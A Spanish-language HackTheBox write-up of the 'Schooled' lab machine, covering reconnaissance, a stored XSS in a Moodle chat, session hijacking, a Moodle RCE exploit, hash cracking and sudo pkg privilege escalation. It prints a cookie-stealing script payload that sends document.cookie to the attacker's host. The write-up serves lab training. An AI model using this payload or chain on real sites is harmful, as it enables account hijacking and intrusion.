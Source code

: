 ```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad media, para su intrusión me aproveché de un 'XSS' para robarle la cookie de sesión al administrador y hacer uso de un 'exploit' para ganar ejecución de código arbitrario, para la escalada de privilegios tenía la capacidad de ejecutar el binario `pkg` con privilegios de 'root', para ello me dirigí a gtfobins y encontré una carga util que permitía escalar privilegio."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133931267-f416086e-4b4e-4e59-8524-f4aec4d584a2.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/133931267-f416086e-4b4e-4e59-8524-f4aec4d584a2.jpg">
</p>

Empece con un escaneo de `Nmap` para detectar puertos abiertos en la maquina.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

Hice otro escaneo para detectar la version de cada puerto abierto.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

Tenia dos puertos abiertos, el primero era de servicio `ssh` y el otro era un servidor web, poco podia hacer en el primero por lo que recurri a ver que habia en el servidor web.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Al parecer era una pagina de colegio, segui investigandola un poco mas y encontre lo siguiente en el "footer" de la web.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

Esto me llamo la atencion, pense que se podria estar aplicando `virtual hosting`, es decir alojar distintos dominios en una sola `IP`, para ello lo introduje en el `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

Volvi a acceder a la web pero no habia nada interesante.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Hice uso de `whatweb` para ver si corria algun `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Al parecer era la misma, para ello hice `fuzzing` de subdominios y encontre uno que me llamo la atencion.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` era un subdominio que al parecer estaba aplicando, lo introduje en el `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

Y la pagina me reporta algo diferente, era un `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

Tenia un boton que ponia `Log In`, dandole click me redirigio a una pagina de inicio de sesion.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

No tenia credenciales por lo que poco podia hacer, pero me podia registrar.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Una vez registrado, accedí.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Viendo todas las asignaturas que habian, `matematicas` era la unica que tenia un usuario llamado `Manuel Philips`.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

Encontré un comentario de este usuario.

![Sin título (4)](https://user-images.githubusercontent.com/69093629/133931835-60cf83d7-3b31-4460-b646-06e28e940f94.png)

Lo que mas me llamo la atencion es que pone que verificara a todos los usuarios, mirando un poco mas la pagina encontre este `buffer` que al parecer me permitia hablar con `Manuel Philips`, Intente ver si era vulnearable a `XSS`.

![Sin título (1) (1)](https://user-images.githubusercontent.com/69093629/133931790-237974da-1171-4a3a-9815-abb9c4b3ef1d.png)

Y me reporto la alerta por pantalla.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Ahora que sabia que era vulnerable a `XSS` me acorde del mensaje que decia que se verificarian todos los usuarios, pense en efectuar un `Cookie Hijacking`, es decir robar la `cookie` de sesion del usuario privilgiado, para ello use la siguiente sintaxis en `js`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

![Sin título (2) (1)](https://user-images.githubusercontent.com/69093629/133931612-85aa5de0-f753-4a9a-97f3-3d7c77668401.png)

Realmente se puede hacer de muchas maneras.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

Abri un servidor por `python` y recibi mi `cookie` de sesion por `GET` mas otras que no eran mias. 

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

Me autentique con la `cookie` que recibi y al parecer era del usuario `Manuel Philips`, volviendo al mensaje de antes, vi que ponia algo de `MoodleNet`, me dio por investigar y encontré un exploit de `Lanz` que te garantiza `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

Lo ejecute brindandole la `cookie` de sesion del usuario `Manuel Philips` y ejecutando una `reverse shell` por `mkfifo` y gane acceso a la maquina.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigando la maquina encontré un archivo llamado `config.php` que tenia credenciales de `MySQL`.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Antes de usar `MySQL` hice uso de la utilidad `MySQLshow` para enumerar un poco las bases de datos que habian y sus tablas.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

Tras una enumeracion de la base de datos `moodle` encontré una tabla en especial llamada `mdl_user`, enumerandola encontré distintas columnas, pero me llamaron la atencion en especial "username", "password" y "email", tras enumerarlas me reporto distintos `hashes` de usuarios.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

Decidi crackear los `hashes` con `john` en local y consegui crackear la credencial `!QAZ2wsx` que era del usuario `jamie`, como la maquina tenia `SSH` abierto probe a autenticarme con estas credenciales y accedi, ya pude visualizar la "flag" del usuario.

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Haciendo `sudo -l` vi que podia ejecutar `pkg` como cualquier usuario.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

Me dirigi a [gtfobins](https://gtfobins.github.io) y encontré una carga util que me permitia escalar privilegios.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

En la maquina victima no tenia `fpm` instalado, para ello lo hice en mi maquina y lo transferi a la maquina victima y lo ejecute, ya pude visualizar la "flag" de `root`.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)




































